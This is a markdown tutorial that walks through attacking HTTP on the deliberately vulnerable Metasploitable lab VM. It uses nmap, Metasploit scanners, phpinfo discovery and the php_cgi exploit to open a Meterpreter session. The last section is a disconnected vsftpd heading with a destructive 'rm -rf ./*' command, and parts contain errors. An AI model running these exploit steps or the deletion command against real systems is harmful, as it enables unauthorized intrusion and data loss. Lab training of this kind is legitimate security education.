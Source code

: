 # Exploiting HTTP: A Practical Guide

## Introduction to Port 80 Vulnerabilities

This guide demonstrates how to identify and understand vulnerabilities in HTTP services running on Port 80. This knowledge is essential for system administrators and security professionals to better protect their systems.

## Why Focus on Port 80?

HTTP (Hypertext Transfer Protocol) running on Port 80 is a fundamental protocol for web services. We focus on it because:

* It's commonly used for web traffic
* It transmits data in plaintext, making it easier to analyze
* Many legacy systems still use HTTP instead of HTTPS
* It's often a starting point for security assessments

## Required Tools

1. Metasploitable - A purposely vulnerable virtual machine for security testing
3. Kali Linux - Security-focused Linux distribution containing:
   * Nmap - Network scanning and reconnaissance tool
   * Metasploit Framework (MSF)
4. Web browser - For verifying findings

## Technical Breakdown

### Step 1: Initial Reconnaissance with Nmap

Command used: `nmap -sV [IP] -p80`

![Initial Nmap Scan Results](base_nmap_scan.png)

Let's break down this command:
* `-sV`: Performs version detection of services
* `-p80`: Specifically targets port 80
* This scan identifies:
   * Running web server software
   * Version information
   * Operating system details

### Step 2: Service Enumeration
1. Launch Metasploit Framework
`msfconsole`

2. Search for HTTP information gathering module
`search http_version`
![HTTP Version](http.png)

4. Select the HTTP version scanner
`use auxiliary/scanner/http/http_version`

5. View available options
`show options`

6. Set your target IP
`set RHOSTS [TARGET_IP]`

7. Execute the scan
`run`
![RHOSTS Output](rhosts.png)

**Note: Run the scan to gather detailed information about what services and applications are running on this port. This reconnaissance step will help identify the specific technologies and versions being used by the target web server. Once we have this information, we can better understand what potential vulnerabilities or misconfigurations might exist and determine our next steps for enumeration.**

### Step 2a: Understand the Information Given
The codeblock that was returned to us provides a lot of information in one single line. Every single one of the returned components is important. In some way, they are all succeptible to manipulation and exploitation. I will provide a better breakdown of how. 

**Apache/2.28** - This is the Apache web server software, version 2.28
  * Web server vulnerabilities like remote code execution
    
**(Ubuntu)** - The server is running on Ubuntu Linux distribution
  * OS-level vulnerabilities (kernel exploits, privilege escalation)
    
**DAV/2** - WebDAV (Web Distributed Authoring and Versioning) version 2 is enabled, which allows file management over HTTP
  * File manipulation vulnerabilities, directory traversal
    
**Powered by PHP/5.2.4-2 ubuntu5.10** - The server is running PHP version 5.2.4-2, specifically the Ubuntu package version 5.10
  * Most critical due to age: Remote code execution, SQL injection, File inclusion vulnerabilities, Memory corruption issues

**Out of all these options - the PHP one seems the most attractive. It extremely only (15 years) and has multiple access points. There is also a lot of open source information that we can find online to help us accomplish this.**


### Step 3: Directory Structure Analysis
The next thing that we are going to do is ensure that PHP is running an possibly see some of the other protocols running on out Port 80 (HTTP).


A directory scanner (dir_scanner) actively probes for hidden directories and files on a web server, while HTTP version detection just identifies server software versions. Here's the reformatted command sequence:

1. Launch Metasploit Framework `msfconsole`

2. Search for directory scanning module `search dir_scanner`

3. View scanner options `show options`

4. Configure target `set RHOSTS [IP]`

5. Execute scan `run`
   ![Dir_Scanner Output](dir_scanner_output.png)

### Step 4: Clarify Objective
We want access to the backend of the HTTP server. Here is the visualization of the front-end.
![Metaploitable HTTP](http_homepage.png)
![PHP Admin Login](php_admin.png)


### Step 5: Exploit ;)

1. The most straighforward way to get more information is to search for an admin login page that may be explosed becuase developers left it open. there are a couple of naming conventions that this could falll under.
  * [IP or WebAddress]/info.php or [IP or WebAddress]/phpinfo.php

    These are the results: ![PHP Admin Page](PHPinfo.png)

2. Out of all the sections here, one stands out the most. The configuration file stands out the most because we may be able to gain access through it. After all, that's what it's intended for.
Let's load up Metasploitable and figure out how to find an exploit now.
  * Launch Metasploit Framework `msfconsole`
  * Find a Suitable Exploit `seach php_cgi`
    Bingo: ![PHP CGI Exploit Located](CGIInjection.png)
3. Let's load up and exploit.
  * `use 0`
  * `show options`
  * `set RHOSTS [IP]`
  * `exploit`
  * The Meterpreter session starting was an extremely good sign. Now we can pop a shell. But first let's verify we are in.

![Session Started with Exploit](Exploit.png)

Here you can see that we are a lower-level privileged user. There are also files available on the backend that we couldn't see at first when we went to the HTTP web page.
So we can consider this a success.

Next time we will unpack how to escalate our low-level privileges so that we can do more and fully own the system.
![Success](AccessGranted.png)

### Step 5a: Exploit w/ Full Access
vsftpd is the Very Secure FTP Daemon (FTP being the file transfer protocol)
1. Delete all files in directory: `rm -rf ./*`
